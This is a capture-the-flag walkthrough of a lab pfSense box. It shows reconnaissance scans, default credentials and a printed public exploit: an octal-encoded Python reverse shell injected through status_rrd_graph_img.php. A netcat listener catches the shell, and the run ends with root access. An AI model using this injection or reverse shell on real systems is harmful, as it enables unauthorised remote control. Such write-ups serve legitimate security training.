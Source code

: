 ### Recon

Initiating reconnaissance on sense:
```
nmap -sC -sV 10.10.10.60
```

With the following results:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-20 11:00 -03
Nmap scan report for 10.10.10.60
Host is up (0.22s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
```

### Enumeration

Let's visit the application and run a gobuster scan to look for extensions txt & conf to look for any configuration files or text files left by system administrators:
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60 -k -x php,txt,conf
```

We get the following results:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 6690]
/help.php             (Status: 200) [Size: 6689]
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/stats.php            (Status: 200) [Size: 6690]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/edit.php             (Status: 200) [Size: 6689]
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/license.php          (Status: 200) [Size: 6692]
/system.php           (Status: 200) [Size: 6691]
/status.php           (Status: 200) [Size: 6691]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/changelog.txt        (Status: 200) [Size: 271]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/exec.php             (Status: 200) [Size: 6689]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/wizard.php           (Status: 200) [Size: 6691]

```

Two files that immediately catch my eye are changelog.txt & system-users.txt.
The system-users.txt file gives us credentials:
The username is rohit and the password is the default password pfsense.

The version number is 2.1.3.
```
searchsploit pfsense
```

One result stands out:
```
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injecti | php/webapps/43560.py
```

### Exploitation

Transfer the exploit to attacker's machine directory:
```
searchploit -m 43560.py
```

Let’s look at the exploit to see what it’s doing.
```
# command to be converted into octal$
 40 command = """$
 41 python -c 'import socket,subprocess,os;$
 42 s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);$
 43 s.connect(("%s",%s));$
 44 os.dup2(s.fileno(),0);$
 45 os.dup2(s.fileno(),1);$
 46 os.dup2(s.fileno(),2);$
 47 p=subprocess.call(["/bin/sh","-i"]);'$
 48 """ % (lhost, lport)$
 49 $
 50 $
 51 payload = ""$
 52 $
 53 # encode payload in octal$
for char in command:$
 55 >   payload += ("\\" + oct(ord(char)).lstrip("0o"))$
 56 $
 57 login_url = 'https://' + rhost + '/index.php'$
 58 exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" +     "'" + payload + "'|sh"$
 59 $
```

First, lets set up a listener to receive the shell
```
nc -lnvp 4444
```

Now lets run the exploit 
```
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.9 --lport 4444 --username rohit --password pfsense
```

And get a shell:
```
CSRF token obtained
Running exploit...
Exploit completed
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.60] 45967
sh: can't access tty; job control turned off
# whoami
root

```
